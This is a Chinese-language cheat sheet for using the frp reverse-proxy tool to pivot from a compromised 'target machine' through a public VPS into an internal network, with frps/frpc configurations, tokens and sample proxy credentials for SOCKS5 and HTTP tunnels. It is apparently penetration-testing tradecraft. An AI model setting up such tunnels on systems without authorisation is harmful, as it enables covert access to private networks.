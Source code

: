 # Frp

---



```
支持tcp、udp、http、https、socker5
tcp、udp、socker5需要公网IP
http、https需要证书和域名
作用： 反向代理、端口转发
```



## 下载地址

```
https://github.com/fatedier/frp/releases
```



|         |             |                                                              |
| ------- | ----------- | ------------------------------------------------------------ |
| 公网VPS | 10.10.10.1  | ./frps -c frps.ini       (chmod 755 *  #给权限) <br/>#frps.ini---------------------------<br/>[common]<br/>bind_addr=0.0.0.0<br/>bind_port = 7088<br/>#------------------------------------ |
| 目标机  | 192.168.1.1 | frpc.exe -c frpc.ini<br/>#frpc.ini---------------------------<br/>[common]server_addr = 10.10.10.1<br/>server_port = 7088 <br/>[sock5-proxy]type = tcp<br/>remote_port = 3004<br/>plugin = socks5<br/>#------------------------------------ |
| 攻击者  | 192.168.2.1 | #任何协议均可连接socket5<br/>代理设置：http:// 10.10.10.1: 3004    socket5 |





| 对象    | IP          | 转发（操作）及规则文件内容                                   |
| ------- | ----------- | ------------------------------------------------------------ |
| 公网VPS | 10.10.10.1  | ./frps -c frps.ini       (chmod 755 *  #给权限)<br/>#frps.ini---------------------------<br/>[common]# 验证连接监听地址<br/>bind_addr=0.0.0.0<br/># 验证连接端口bind_port = 7088<br/># web统计后台账号<br/>dashboard_user = user1<br/># web统计后台密码<br/>dashboard_pwd = oUcOEDq3VGAxoW5Xoz51<br/># web统计后台端口dashboard_port = 7500<br/># token验证token = 8d262f2b-6dba-4a8d-857e-8a53d1d439e2<br/>#--------------------------- |
| 目标机  | 192.168.1.1 | frpc.exe -c frpc.ini<br/>#frpc.ini---------------------------<br/>[common]server_addr = 10.10.10.1<br/>server_port = 7088token = 8d262f2b-6dba-4a8d-857e-8a53d1d439e2 <br/># http代理<br/>[http_proxy]type = tcp<br/>remote_port = 6000<br/>plugin = http_proxy<br/>#配置http代理的简单认证<br/>plugin_http_user = user1<br/>plugin_http_passwd = 1qaz2wsx  <br/># ssh设置代理 或者远程桌面<br/>#[ssh]<br/>#type=tcp<br/>#local_ip = 127.0.0.1<br/>#local_port = 22<br/>#remote_port = 6000<br/>#启用加密#use_encryption = true<br/>#启用压缩#use_compression = true  <br/># web服务设置代理<br/>#[web]#type = http<br/>#local_port = 80<br/>#custom_domains = www.xxxx.com<br/>#--------------------------- |
| 攻击者  | 192.168.2.1 | 设置代理为VPS x.x.x.1:6000 进行验证用户密码即可通过代理进行访问内网得访问<br/>#cmd----------------------------------------------<br/>set http_proxy=http:// x.x.x.1:6000<br/>set http_proxy_user=user1<br/>set http_proxy_passwd=1qaz2wsx <br/>#web----------------------------------------------<br/>http:// 10.10.10.1:6000user1 / 1qaz2wsx |

